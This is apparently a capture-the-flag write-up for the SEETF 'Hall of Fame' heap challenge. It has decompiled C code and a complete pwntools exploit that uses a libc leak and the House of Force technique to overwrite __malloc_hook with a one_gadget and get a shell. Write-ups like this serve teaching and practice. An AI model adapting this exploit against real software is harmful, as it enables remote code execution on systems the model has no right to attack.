## Hall of Fame
![hof](images/hof.png)

### Description
>Author: @L0uisJ0shua\
>It’s about drive, it’s about power, we stay hungry, we devour Put in the work, put in the hours and take what’s ours. Time to get to the Hall of Fame and be among the GOATS.\
>nc fun.chall.seetf.sg 50004\
>MD5: 3264e936e673b0de0ec61698b9bb930f



### Gain Shell
Heap exploitation challenge, with libc-2.27 version. No PIE and Partial Relro for the protection. Let's straight to decompile with IDA.\
The challenge is running on **main()** function. 
```c
...
  v21 = __readfsqword(0x28u);
  counter = 0;
  heap_pointer = sbrk(0LL);
  setup_IO();
  while ( 1 )
  {
    while ( 1 )
    {
      do
      {
        print_statements(counter);
        printf("Choose> ");
        fflush(stdout);
      }
      while ( !fgets(option, 3, stdin) );
      fflush(stdin);
      option[strcspn(option, "\n")] = 0;
      v3 = atoi(option);
      if ( v3 != 2 )
        break;
      printf("\nThe position of latest addition is at %p\n", heap_pointer);
      printf("The position of PUTS is at %p\n", &puts);
    }
    if ( v3 == 3 )
      break;
    if ( v3 == 1 )
    {
      printf("\nHow many points did this person score? > ");
      fflush(stdout);
      if ( fgets(score, 64, stdin) )
      {
        fflush(stdin);
        score[strcspn(score, "\n")] = 0;
        size = strtol(score, &pty, 10);
        ptr = malloc(size);
        chunk = ptr;
        printf("\nWho is this Hall of Famer > ");
        fflush(stdout);
        fgets(word, 100, stdin);
        fflush(stdin);
...
```

If you look at the code we already got leak address, and there's a overflow on heap also. When we add Hall of Fame, the program will ask the size and malloc it, and then ask for input again for the data with size **100**.\
So if we input size < 100 we will have an overflow. Because the libc version is 2.27 so to solve this challenge just use [**House of Force**](https://heap-exploitation.dhavalkapil.com/attacks/house_of_force) technique.\

Full script:
```py
from pwn import *
from sys import *

elf = context.binary = ELF("./hall_of_fame_patched")
p = process("./hall_of_fame_patched")
libc = ELF("./libc.so.6")

HOST = 'fun.chall.seetf.sg'
PORT = 50004

cmd = """
b*0x0000000000400AE7
"""

if(argv[1] == 'gdb'):
    gdb.attach(p,cmd)
elif(argv[1] == 'rm'):
    p = remote(HOST,PORT)

def add(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'> ', str(size))
    p.sendlineafter(b'> ', data)

def show():
    p.sendlineafter(b'> ', b'2')
    p.recvuntil(b'at ')
    heap = eval(p.recvline())
    p.recvuntil(b'at ')
    leak = eval(p.recvline())
    return heap,leak


heap,leak = show()
libc.address = leak - libc.sym['puts']
print(hex(heap), hex(libc.address))
add(0x10,b'A'*24+p64(0xffffffffffffffff))
size = libc.sym['__malloc_hook']-(heap+0x270)-0x20

add(size,b'')
add(0x30,p64(libc.address+0x10a2fc))
p.interactive()
```